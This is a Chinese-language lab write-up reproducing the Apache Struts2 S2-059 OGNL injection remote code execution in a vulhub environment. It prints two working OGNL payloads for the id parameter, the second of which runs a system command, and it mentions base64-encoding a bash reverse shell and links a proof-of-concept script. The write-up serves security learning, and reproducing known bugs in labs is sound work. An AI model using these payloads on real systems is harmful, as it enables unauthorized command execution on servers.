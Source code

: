 # Struts2_059_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

​			影响版本

  		2.0.0 - 2.5.20

### 0x02漏洞复现

#### payload1：

?id=%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}

#### payload2：

?id=%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /test'))}





​			登录界面

![S2_059_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_1.png)



​			Burpsuite抓包，发送第一个payload

![S2_059_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_2.jpg)

​				

​			Burpsuite抓包，发送第二个payload

![S2_059_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_3.jpg)







​				docker进入容器，查看tmp目录，生成test文件，命令成功执行。

![S2_059_rce_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_4.jpg)



(PS:代码执行后无回显，利用bash反弹shell需要base64编码,此处参考了 **hatjwe**师傅的文章)

base64在线编码： http://www.jackson-t.ca/runtime-exec-payloads.html 

poc：https://github.com/ADummmy/vulhub_Writeup/tree/main/code/struts2_059_poc.py

### 0x03总结

​				这是笔者的第三篇文章，复现了大概一天左右，网络上文章质量参差不齐，刚入门导致代码审计看不懂，对新手友好度太差，要么就是上来一段payload和poc，都不告诉你，具体流程是什么，踩了很多坑。不过在此过程中，本人也学到了很多。

### 0x04参考资料

https://my.oschina.net/u/4593034/blog/4693589

